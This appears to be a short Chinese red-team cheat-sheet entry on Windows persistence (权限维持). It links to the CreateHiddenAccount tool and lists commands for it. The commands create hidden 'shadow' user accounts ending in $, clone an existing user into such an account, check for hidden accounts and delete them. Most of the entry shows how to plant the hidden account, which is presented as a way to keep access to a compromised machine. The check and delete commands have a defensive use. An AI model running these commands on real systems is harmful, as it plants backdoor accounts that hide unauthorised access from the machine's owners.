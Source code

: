 
[权限维持](https://mp.weixin.qq.com/s/uDPCkbWcp-upMH3r2x1WMA)
## windows
[影子账户 CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount)





## CreateHiddenAccount
管理员权限运行
```sh
# 指定要克隆的用户名
CreateHiddenAccount.exe -u teamssix2 -p Passw0rd -cu test
# 创建名为test$，隐藏账户
CreateHiddenAccount.exe -u test -p 123  
# 检查当前系统的隐藏账号
CreateHiddenAccount.exe -c
# 删除 teamssix 隐藏账号
CreateHiddenAccount.exe -d teamssix
```